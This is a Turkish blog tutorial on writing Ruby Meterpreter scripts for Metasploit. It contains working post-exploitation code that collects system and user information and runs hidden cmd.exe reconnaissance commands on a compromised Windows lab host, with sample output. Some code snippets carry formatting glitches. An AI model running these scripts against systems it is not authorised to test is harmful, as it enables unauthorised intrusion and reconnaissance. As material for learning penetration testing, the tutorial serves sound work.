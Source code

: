 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Düzenleme'
date: '2017-06-14T13:49:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve\_helloworld.rb\_olarak\_/usr/share/metasploit-framework/scripts/meterpreter\_klasörüne kayıt edelim." 
 
url:  /tr/msf-meterpreter-script-duzenleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Script Yazma

Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve `helloworld.rb` olarak `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edelim.
```bash
root@kali:~# echo “print_status(“Hello World”)” > /usr/share/metasploit-framework/scripts/meterpreter/helloworld.rb
```

Oluşturduğumuz script kodunu meterpreter oturum açık iken çalıştıralım.
```bash
meterpreter > run helloworld
> Hello World
meterpreter >
```

Basit bir Ruby kodunu, meterpreter içinde çalıştırmış olduk. Şimdi ise bir kaç API çağrısını `helloworld.rb` dosyamızın içine ekleyelim. Aşağıdaki satırları, metin editör kullanarak ekleyebilirsiniz.
```bash
print_error(“this is an error!”)
print_line(“this is a line”)
```

Yukarıdaki satırlar, standart veri girişi ve hata mesajları için kullanıma bir örnek oluşturmaktadır. Oluşturduğumuz kodları çalıştıralım.
```bash
meterpreter > run helloworld
> Hello World
[-] this is an error!
this is a line
meterpreter >
```

## helloworld.rb

Script kod dosyamız en son olarak aşağıdaki gibi olmalıdır.
```bash
print_status("Hello World")
print_error("this is an error!")
print_line("This is a line")
```

Şimdi kodumuza bir fonksiyon ekleyelim. Bu fonksiyonda, bir kaç temel bilgi elde edeceğiz ve hata kontrol özelliği ekleyeceğiz. Oluşturacağımız mimarinin yapısı aşağıdaki gibi olacaktır.
```bash
 def geninfo(session)
    begin
    …..
    rescue ::Exception => e
    …..
    end
 end
```

Bu yapıyı oluşturmak için dosyayı aşağıdaki şekilde düzenlemeniz yeterlidir. Bu düzenlemeleri yaptıktan sonra `helloworld.rb` dosyamızın içeriği aşağıdaki gibi olacaktır.
```bash
 def getinfo(session)
    begin
       sysnfo = session.sys.config.sysinfo
       runpriv = session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print_status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
    rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end
```

Bu kodların ne işlem yaptığını adım adım açıklayalım. Öncelikle, değerleri `session` değişkeninden alan `getinfo(session)` isimli bir foksiyon tanımladık. Bu session değişkeni, bir takım metodları ihtiva etmektedir. `sysnfo = session.sys.config.sysinfo` satırı sistem bilgisini getirirken `runpriv = session.sys.config.getuid` kullanıcı bilgisini elde etmekte kullanılmaktadır. Ayrıca, hata durumlarını yönetici istisna yöneticisi bulunmaktadır.

## helloworld2.rb

İlk oluşturduğumuz dosyaya ufak bir ilave yaparak `helloworld2.rb` dosyası üretelim. `helloworld2.rb` dosyası, az önce oluşturduğumuz dosyanın sonuna getinfo(client) satırının eklenmiş halidir. Bu satırı ekleyip dosyayı `helloworld2.rb` olarak kayıt edelim. Dosyanın son hali aşağıdaki gibi olmalıdır.
```bash
 def getinfo(session)
    begin
       sysnfo = session.sys.config.sysinfo
       runpriv = session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print _status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
 rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end

 getinfo(client)
```

Şimdi hazırladığımız `helloworld2.rb` dosyamızı Meterpreter oturumunda çalıştıralım.
```bash
 meterpreter > run helloworld2
 > Getting system information ...
 >     The target machine OS is Windows XP (Build 2600, Service Pack 3).
 >     The computer name is Computer
 >     Script running as WINXPVM01labuser
```

Gördüğünüz gibi `helloworld2.rb` scripti ile bir takım sistem bigilerini ele etmiş olduk.

## helloworld3.rb

Yukarıda oluşturduğumuz iki örnek kod dosyasından sonra şimdi başka bir örnek scripte bakalım. Bu script dosyasını metin editorü ile oluşturabilirsiniz. İçeriği aşağıdaki gibi olmalıdır.
```bash
def list_exec(session,cmdlst)
    print_status("Running Command List ...")
    r=''
    session.response_timeout=120
    cmdlst.each **do** |cmd|
       begin
          print_status "running command #{cmd}"
          r = session.sys.process.execute("cmd.exe /c #{cmd}", nil, {'Hidden' => true, 'Channelized' => true**})**
          **while**(d = r.channel.read)             print_status("t#{d}")
          end
          r.channel.close
          r.close
       rescue ::Exception => e
          print_error("Error Running Command #{cmd}: #{e.class} #{e}")
       end
    end
 end commands = [ "set",
    "ipconfig  /all",
    "arp -a"] list_exec(client,commands)
```

Yukarıdaki kodların ne işlemler yaptığına kısaca bakalım. Öncelikle, `list_exec` isimli bir fonksiyon tanımlanmıştır. Bu fonksiyon, `session` ve `cmdlist` isimli iki değişken almaktadır. `cmdlist` değişkeninin array yöntemiyle bir dizi komutlar olduğu, kodlardan anlaşılmaktadır. Bu komutlar, sırayla değişkenden alınacak `cmd.exe` üzerinden hedef sistemde çalıştırılacaktır. Sistemin donma ve tepkisiz kalma durumunu önlemek için `session.response_timeout=120` 120 saniye bekleme süresi tanımlanmıştır. Önceki script kodunda olduğu gibi hata kontrol satırı da bulunmaktadır.

`cmdlist` dizi değişkeni aslında aşağıda gösterilen komutları sırayla çalıştırmaktadır.
```bash
 commands = [ “set”,
    “ipconfig  /all”,
    “arp –a”]
```

Komutların sonunda da oluşturduğumuz fonksiyonu çalıştırma satırı `list_exec(client,commands)` bulunmaktadır.

Şimdi oluşturduğumuz yeni helloworld3.rb script kodunu Meterpreter oturumu içinde çalıştıralım.
```bash
 meterpreter > run helloworld3
 > Running Command List ...
 >     running command set
 >     ALLUSERSPROFILE=C:\Documents and Settings\All Users
 APPDATA=C:\Documents and Settings\P0WN3D\Application Data
 CommonProgramFiles=C:\Program Files\Common Files
 COMPUTERNAME=TARGET
 ComSpec=C:\WINNT\system32\cmd.exe
 HOMEDRIVE=C:
 HOMEPATH=
 LOGONSERVER=TARGET
 NUMBER_OF_PROCESSORS=1
 OS=Windows_NT
 Os2LibPath=C:\WINNT\system32\os2dll;
 Path=C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
 PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE=x86
 PROCESSOR_IDENTIFIER=x86 Family 6 Model 7 Stepping 6, GenuineIntel
 PROCESSOR_LEVEL=6
 PROCESSOR_REVISION=0706
 ProgramFiles=C:\Program Files
 PROMPT=$P$G
 SystemDrive=C:
 SystemRoot=C:\WINNT
 TEMP=C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 TMP=C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 USERDOMAIN=TARGET
 USERNAME=P0WN3D
 USERPROFILE=C:\Documents and Settings\P0WN3D
 windir=C:\WINNT >     running command ipconfig  /all
 >     
 Windows 2000 IP Configuration Host Name . . . . . . . . . . . . : target
 Primary DNS Suffix  . . . . . . . : 
 Node Type . . . . . . . . . . . . : Hybrid
 IP Routing Enabled. . . . . . . . : No
 WINS Proxy Enabled. . . . . . . . : No
 DNS Suffix Search List. . . . . . : localdomain Ethernet adapter Local Area Connection: Connection-specific DNS Suffix  . : localdomain
 Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
 Physical Address. . . . . . . . . : 00-0C-29-85-81-55
 DHCP Enabled. . . . . . . . . . . : Yes
 Autoconfiguration Enabled . . . . : Yes
 IP Address. . . . . . . . . . . . : 172.16.104.145
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 172.16.104.2
 DHCP Server . . . . . . . . . . . : 172.16.104.254
 DNS Servers . . . . . . . . . . . : 172.16.104.2
 Primary WINS Server . . . . . . . : 172.16.104.2
 Lease Obtained. . . . . . . . . . : Tuesday, August 25, 2009 10:53:48 PM
 Lease Expires . . . . . . . . . . : Tuesday, August 25, 2009 11:23:48 PM >     running command arp -a
 >     
 Interface: 172.16.104.145 on Interface 0x1000003
 Internet Address      Physical Address      Type
 172.16.104.2          00-50-56-eb-db-06     dynamic   
 172.16.104.150        00-0c-29-a7-f1-c5     dynamic    meterpreter >
```

Gördüğünüz gibi, Ruby kodlarıyla script oluşturmak aslında çok kolay. İlk başta kodlar biraz karışık gelebilir ancak mevcut koldarı biraz çalıştığınızda aşinalık kazanacaksınız. Devamında yapmanız gereken, kod örneklerinden faydalanarak kendi script dosyanızı oluşturmak ve denemektir.
